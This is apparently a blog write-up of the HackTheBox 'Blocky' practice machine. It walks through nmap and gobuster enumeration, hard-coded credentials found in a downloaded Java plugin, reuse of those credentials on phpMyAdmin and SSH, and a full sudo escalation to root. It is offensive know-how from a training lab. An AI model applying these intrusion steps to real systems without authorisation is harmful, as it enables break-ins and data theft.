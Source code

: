 ```yaml
---
layout: post
title: HackTheBox - Blocky
---
```


Blocky is one of the easiest machine on the HackTheBox, based on misconfiguration and Hard-coded credentials in java class.
![Blocky](https://github.com/user-attachments/assets/0fe78f1f-3513-46ab-b990-c1329189c5d1)



## Reconnaissance and Enumeration
Let's start with typical nmap scan to check open ports.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -T5 blocky.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 03:38 CET
Nmap scan report for blocky.htb (10.10.10.37)
Host is up (0.038s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.42 seconds
```
As we can see ports 21, 22 and 80 are open with WordPress page.

![1](https://github.com/user-attachments/assets/5b0c6159-dd7e-42ad-94e7-1f5730dec9b8)

I used Gobuster to find directories on the server.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://blocky.htb    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
```



Let's check the Gobuster results. We can see `/phpMyAdmin`, which will definitely be useful in the later stages.
Among the interesting findings is the `/plugins` directory, which contains two files: BlockyCore.jar and griefprevention-1.11.2-3.1.1.298.jar. Let's download them and see what's inside.

![Zrzut ekranu 2025-02-24 o 03 56 52](https://github.com/user-attachments/assets/a745b638-1580-413d-bb3f-4d777b15f79d)
![Zrzut ekranu 2025-02-24 o 03 58 12](https://github.com/user-attachments/assets/337dd70a-d10b-40af-b5b5-813ed1681172)

From what we can see, it's a Java class file. We can open it using an online or code editor. I opened it in IntelliJ to check what this class contains.

<img width="860" alt="Zrzut ekranu 2025-02-24 o 03 58 42" src="https://github.com/user-attachments/assets/c1e6f394-d2d8-4679-ab6e-4090e732f184" />


The class contains hard-coded credentials for database access. We previously discovered the `/phpmyadmin` directory, so let's check if these login credentials work there.

![Zrzut ekranu 2025-02-24 o 03 59 45](https://github.com/user-attachments/assets/3b673e9b-ca50-4b95-9244-24a1911c48c9)

Bingo, login and password worked, and now we have full access to the entire database, including user information and other stored data.

![Zrzut ekranu 2025-02-24 o 04 01 05](https://github.com/user-attachments/assets/74f02629-bdd8-4fc5-ac57-2a914f071c52)

I found the `wp-users` table, which contains a user named Notch. Maybe we can try logging into SSH with that username and hard-coded password.
___
### Exploitation
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
```
otch@Blocky:~$ ll
total 40
drwxr-xr-x 5 notch notch 4096 Jul  8  2022 ./
drwxr-xr-x 3 root  root  4096 Jul  2  2017 ../
-rw------- 1 notch notch    1 Dec 24  2017 .bash_history
-rw-r--r-- 1 notch notch  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 notch notch 3771 Jul  2  2017 .bashrc
drwx------ 2 notch notch 4096 Jul  2  2017 .cache/
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft/
drwxrwxr-x 2 notch notch 4096 Jul  2  2017 .nano/
-rw-r--r-- 1 notch notch  655 Jul  2  2017 .profile
-r-------- 1 notch notch   33 Feb 23 20:35 user.txt
notch@Blocky:~$ wc user.txt 
 1  1 33 user.txt
```
Perfect hit! We are logged as Notch user, so we can check user flag.
___
### Privilege Escalation
As always, I checked `sudo -l` command, this command is used to display a list of commands which user can execute with root privilages, in this case we can use every command.
```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Since we can execute all commands, we can simply switch to the root user and retrieve the root flag.
```
notch@Blocky:~$ sudo su - root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# cd /root/
root@Blocky:~# ll
total 28
drwx------  3 root root 4096 Feb 23 20:35 ./
drwxr-xr-x 23 root root 4096 Jun  2  2022 ../
-rw-------  1 root root    1 Dec 24  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jun  7  2022 .cache/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Feb 23 20:35 root.txt
root@Blocky:~# wc root.txt 
 1  1 33 root.txt
```






